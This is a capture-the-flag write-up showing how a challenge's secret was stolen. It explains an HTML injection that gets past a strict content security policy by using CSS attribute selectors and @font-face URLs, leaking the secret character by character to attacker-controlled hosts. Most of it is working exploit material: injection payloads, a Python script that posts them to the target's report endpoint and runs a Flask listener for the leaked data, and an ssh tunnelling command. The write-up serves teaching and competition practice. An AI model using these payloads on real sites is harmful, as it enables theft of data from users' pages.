




[← US Cyber Open Season VI Writeups](/blog/us-cyber-open-season-vi-writeups)



In this challenge, there’s a pretty straightforward HTML injection and an admin bot to visit your page with that arbitrary HTML. We have to leak some text off that page but the problem is the strict CSP.



By escaping out of the CSS with a `}>/style>` we can enter in any HTML want since it’s not sanitized.  Then we just need to close out with something like `<style>body{` to make sure the rest of the HTMl isn’t corrupted. Here’s the CSP issue though:

```css
Content-Security-Policy: 
default-src 'none'; 
style-src 'self' 'unsafe-inline'; 
img-src 'self'; 
font-src *; 
base-uri 'none'
```

The only way to get some kind of leak then must be through loading a font through a URL with inline CSS (everything else we might be able to do is blocked by this CSP). One idea for doing this is using the `^=` selector in CSS to select only if there’s an element that starts with a certain string. For example:

```css
input[name="recette"][value^="v"] {
	font-family: "leak-v"; 
}
@font-face { 
	 font-family: "leak-v"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/v"); 
}
```

That way if there is indeed an input with attribute value that starts with `v` the CSS loads a font from `https://x11uqnxb.instances.httpworkbench.com/v` and we find out from our HTTP logs that the first letter of the secret is a v. To test, I tried exactly that payload and got a hit!



Now we can check for more than one letter/symbol at a time, but we do hit a limit due to nginx limiting the length of the param-string.

```css
input[name="recette"][value^="Q"] {
	font-family: "leak-Q"; 
}
@font-face { 
	 font-family: "leak-Q"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/Q"); 
}

input[name="recette"][value^="R"] {
	font-family: "leak-R"; 
}
@font-face { 
	 font-family: "leak-R"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/R"); 
}

input[name="recette"][value^="S"] {
	font-family: "leak-S"; 
}
@font-face { 
	 font-family: "leak-S"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/S"); 
}
...
```

I found I can comfortably check for about 10 to avoid hitting that length issue, but maybe more can fit in as well if I shorten the css a bit. Let’s say we find that the first character is `S`, we can then check:

```css
input[name="recette"][value^="ST"] {
	font-family: "leak-T"; 
}
@font-face { 
	 font-family: "leak-T"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/2_T"); 
}

input[name="recette"][value^="SU"] {
	font-family: "leak-U"; 
}
@font-face { 
	 font-family: "leak-U"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/2_U"); 
}

input[name="recette"][value^="SV"] {
	font-family: "leak-V"; 
}
@font-face { 
	 font-family: "leak-V"; 
	 src: url("https://x11uqnxb.instances.httpworkbench.com/2_V"); 
}
...
```

And that way our webhook gets the data of which index a character was found in as well, and the `value^="SV"` matching would mean that the secret must continue with `V`.

Now we just need to automate sending these CSS selectors within our HTMl injection. After a lot of tweaking, I ended up using this script that gemma-4-31b-it generated:


#### Script that gemma-4-31b-it generated

```python
from threading import Thread
import requests
from time import sleep
import urllib.parse

# Configuration
TARGET_DOMAIN = "vbhmgkiz.web.ctf.uscybergames.com"
COLLABORATOR_DOMAIN = "25d0bb5d98fe97.lhr.life"
# Expanded charset to be safer
CHARSET = (
    "abcdefghijklmnopqrstuvwxyz0123456789_{}ABCDEFGHIJKLMNOPQRSTUVWXYZ[]()!@#$%^&*+-= "
)

# Request headers based on provided capture
HEADERS = {
    "Content-Type": "application/x-www-form-urlencoded",
}

NUM_AT_A_TIME = 9

def generate_chunk_payload(known_prefix, characters, index):
    """
    Generates a CSS payload for a specific chunk of characters at a specific index.
    """
    css_rules = []
    for char in characters:
        # Log as index_char (e.g., 0_a) to distinguish positions
        log_path = f"{index}_{char}"
        rule = (
            f'input[name="recette"][value^="{known_prefix}{char}"] {{ font-family: "leak-{char}"; }} '
            f'@font-face {{ font-family: "leak-{char}"; src: url("https://{COLLABORATOR_DOMAIN}/{log_path}"); }}'
        )
        css_rules.append(rule)

    payload = f"}}</style><style>{' '.join(css_rules)}</style><style>body{{"
    return payload

def send_report(payload):
    """
    Sends the payload to the /report endpoint.
    """
    url = f"https://{TARGET_DOMAIN}/report"
    # The endpoint expects x-www-form-urlencoded data
    data = {"accent": payload}

    try:
        response = requests.post(url, headers=HEADERS, data=data)
        return response.status_code
    except Exception as e:
        print(f"Request failed: {e}")
        return None

def leak_character(known_prefix):
    """
    Splits the charset into chunks of 10 and sends multiple reports.
    """
    index = len(known_prefix)
    print(f"[*] Leaking character at index {index} (Prefix: '{known_prefix}')")

    # Split charset into chunks of 10
    for i in range(0, len(CHARSET), NUM_AT_A_TIME):
        chunk = CHARSET[i : i + NUM_AT_A_TIME]
        print(f"    [+] Testing chunk: {''.join(chunk)}")

        payload = generate_chunk_payload(known_prefix, chunk, index)
        status = send_report(payload)

        if status == 200:
            print(f"    [✓] Successfully reported chunk")
        else:
            print(f"    [✗] Failed to report chunk (Status: {status})")

from flask import Flask, redirect, url_for

app = Flask(__name__)

@app.route("/<int:index>_<char>")
def home(index, char):
    global discovered_secret
    discovered_secret += char
    print(discovered_secret)
    leak_character(discovered_secret)

def run():
    app.run(port=8081)

if __name__ == "__main__":
    thread = Thread(target=run)
    thread.start()
    sleep(2)

    discovered_secret = "SVIUSCG{"
    leak_character(discovered_secret)
```


It both creates the webhook with a Flask http server and sends the CSS payloads in chunks. This way when the webhook gets a hit, it can automatically move on to the next index. I forwarded my local http server to the internet using `ssh -R 80:localhost:8081 nokey@localhost.run`

After running it for a few minutes:



Flag: `SVIUSCG{l4_p0ut1n3_au_fr0m4g3_squ1k_squ1k}`
